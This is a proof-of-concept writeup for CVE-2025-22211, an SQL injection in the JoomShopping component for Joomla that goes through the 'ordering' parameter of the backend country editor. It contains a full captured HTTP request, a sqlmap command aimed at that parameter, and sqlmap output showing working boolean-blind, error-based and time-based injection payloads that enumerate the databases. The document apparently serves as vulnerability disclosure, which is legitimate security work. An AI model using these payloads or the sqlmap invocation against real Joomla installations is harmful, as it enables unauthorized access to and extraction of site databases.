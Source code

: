 # CVE-2025-22211: SQL injection in JoomShopping for Joomla!

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22211

**JoomShopping:** https://extensions.joomla.org/extension/joomshopping/

## Introduction
A SQL injection vulnerability in the JoomShopping component versions 1.0.0-1.4.3 for Joomla allows authenticated attackers (administrator) to execute arbitrary SQL commands in the country management area in the backend via the 'ordering' parameter.

## POC
To exploit this vulnerability go to 'JoomShopping >> Options >> Country list >> Country >> Afganistan' and save the save request to a file (req.txt).

![Alt text](5.png)

HTTP Request:
```
POST /administrator/index.php?option=com_jshopping&controller=countries HTTP/1.1
Host: localhost:8080
Content-Length: 117
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php?option=com_jshopping&controller=countries&task=edit&country_id=1
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; atumSidebarState=open; jsst_collapse_admin_menu=1; hikashop_descWidth_cookie=desc_width_small; eae16bf6d45765d2eca64438ea3379fc=2ee59dc8b23af00572d53b871598093e; 70dca465975331b55d5354a973a2cec1=3b1b2a80d6469690df4c88906dde07e4
Connection: keep-alive

country_publish=1&ordering=1&name_en-GB=Afghanistan&country_code=AFG&country_code_2=AF&task=apply&edit=1&country_id=1
```

Exploit:
```
ubuntu@host:~$ python3 sqlmap.py -r ~/req.txt --batch --dbs --dbms=mysql -p ordering
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


---
Parameter: ordering (POST)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: country_publish=1&ordering=1' AND EXTRACTVALUE(8366,CASE WHEN (8366=8366) THEN 8366 ELSE 0x3A END)-- iddH&name_en-GB=Afghanistan&country_code=AFG&country_code_2=AF&task=apply&edit=1&country_id=1

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: country_publish=1&ordering=1' AND GTID_SUBSET(CONCAT(0x716a7a7671,(SELECT (ELT(4079=4079,1))),0x7178716271),4079)-- dRyK&name_en-GB=Afghanistan&country_code=AFG&country_code_2=AF&task=apply&edit=1&country_id=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: country_publish=1&ordering=1' AND (SELECT 8740 FROM (SELECT(SLEEP(5)))QDfY)-- knHD&name_en-GB=Afghanistan&country_code=AFG&country_code_2=AF&task=apply&edit=1&country_id=1
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
